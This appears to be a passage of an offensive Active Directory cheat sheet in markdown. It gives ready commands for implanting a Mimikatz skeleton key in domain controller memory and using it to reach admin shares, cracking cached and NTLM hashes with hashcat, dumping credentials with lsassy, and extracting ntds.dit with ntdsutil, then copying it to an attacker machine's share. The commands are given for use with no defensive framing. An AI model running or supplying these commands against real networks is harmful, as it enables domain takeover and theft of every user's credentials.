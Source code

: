 It backdoors AD with a key implanted in DC memmory: mimikatz

`misc::skeleton`

for example access share using skeleton key

`net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz`

Access anything without knowing the user

`dir \\Desktop-1\c$ /user:Machine1 mimikatz`


## Hash cracking


* MsCacheV2

`hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85fxxx' /usr/share/wordlists/rockyou.txt --force --potfile-disable`

* NTLM

`hashcat -a 0 -m 1000 admin.hashfile  /usr/share/wordlists/rockyou.txt --force --potfile-disable`

## Distributed Component Object Model



## Dumping Credentials

### lsassy

This is preferred and most silent way of dumping AD contents.

use `lsassy`

For that you are going to need credentials: local, ntlm, or ticket

### ntds.dit exfiltration using NTDSUTIL

dit-file with AD credentials can be dumped in a variety of ways once System privilege is obtained on domain controller

Make a fake AD installation file
`NTDSUTIL "Activate Instance NTDS" "IFM" "Create Full C:\Files" "q" "q"`

Copy it to attacking machine
`Copy-Item -Path  C:\Files -Destination  '\\192.168.219.129\dumb' -Recurse`

Contents should be like
```
└─$ tree Files    
Files
├── Active Directory
│   ├── ntds.dit
│   └── ntds.jfm
└── registry
    ├── SECURITY
    └── SYSTEM
```
